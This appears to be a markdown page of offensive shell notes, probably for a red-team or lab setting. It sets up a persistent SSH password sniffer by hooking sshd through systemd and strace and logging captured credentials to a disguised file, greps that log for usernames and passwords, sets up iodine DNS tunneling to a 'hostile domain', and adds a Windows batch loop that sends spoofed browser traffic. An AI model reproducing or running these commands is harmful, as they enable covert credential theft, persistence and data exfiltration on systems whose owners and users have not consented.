 {% highlight shell %}
$ sudoedit /lib/systemd/system/ssh.service
ExecStartPost=/etc/systemd/system/sshd.sh

$ sudoedit /etc/systemd/system/sshd.sh
#!/bin/bash
(/usr/bin/strace -f -p $MAINPID -e trace=write 2>&1 | grep --line-buffered -e "$(/bin/hostname)" -e '\\0\\0\\0\\10' >> /var/gnome.1) &

$ chmod +x /etc/systemd/system/sshd.sh
$ systemctl daemon-reload
$ service ssh restart
{% endhighlight %}

grepping the password and username

{% highlight shell %}
$ cat sniff.txt | cut -d ' ' -f 4 | sort | uniq -c | sort -nr
$ grep '\\0\\0\\0\\10' sniff.txt
käyttäjä
$ grep '\\0\\0\\0\\4' sniff.txt
$ grep '@computer' sniff.txt
{% endhighlight %}

## DNS tunneling

{% highlight shell %}
$ apt-get install iodine
{% endhighlight %}

Server to listen

{% highlight shell %}
# iodined -f -P 12345 [target ip address] [hostile domain]
{% endhighlight %}

Client

{% highlight shell %}
$ sudo iodine -f -P 12345 -r [hostile domain]
{% endhighlight %}

## SPAM mail

## Windows create traffic using curl

{% highlight shell %}
set list=http://localhost1 http://localhost2
set list2=http://localhost3 http://localhost3

:loop
set /A test=%RANDOM% * 20 / 32768 + 1 + 20

ipconfig /flushdns

(for %%a in (%list%) do (
REM Chrome
	curl.exe -kLI "%%a"  -H "cache-control: max-age=0" -H "upgrade-insecure-requests: 1" -H "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36" -H "sec-fetch-mode: navigate" -H "sec-fetch-user: ?1" -H "accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3" -H "sec-fetch-site: none" -H "accept-encoding: gzip, deflate, br" -H "accept-language: en-US,en;q=0.9,fi;q=0.8"
	timeout %test%
))
